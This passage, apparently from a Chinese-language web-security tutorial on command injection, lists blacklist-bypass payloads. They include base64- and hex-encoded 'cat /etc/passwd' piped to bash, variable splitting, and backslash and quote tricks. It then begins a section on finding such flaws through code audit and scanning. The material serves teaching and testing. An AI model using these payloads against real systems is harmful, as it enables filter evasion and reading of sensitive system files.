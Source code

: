 - **编码绕过**

直接将命令字符串转换成 URL 编码、hex 码、base 64 等编码，再转换回来执行：

复制代码

```
# Base64编码命令“cat /etc/passwd”

echo "Y2F0IC9ldGMvcGFzc3dk"|base64 -d|bash

# Hex编码命令“cat /etc/passwd”

echo "636174202f6574632f706173737764"|xxd -r -p|bash

$(printf "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")

# URL编码

cat%20%2Fetc%2Fpasswd
```

- **变量自定义**

将黑名单内容拆分到不同的变量，再拼接起来执行。

复制代码

```
a=c;b=at;c="/etc/passwd";$a$b $c
```

- **反斜杠**

反斜杠的作用就是转义，因此可用来拆分黑名单字符串，但又不影响结果。

复制代码

```
c\a\t /et\c/pas\s\wd
```

- **单双引号**

单双引号内的内容会被当作字符串处理，跟其他字符串可拼接出我们需要的命令行字符串。

复制代码

```
c"a"t /et''c/p'a'sswd
```

### 挖掘命令注入漏洞

#### 1.代码审计

代码审计思路就是追踪污点（用户可控数据，如 Get、Post 数据等等）的传播，看是否未经限制就传递给命令执行函数（system、exec、shell_ exec 等等）。

#### 2.黑盒扫描
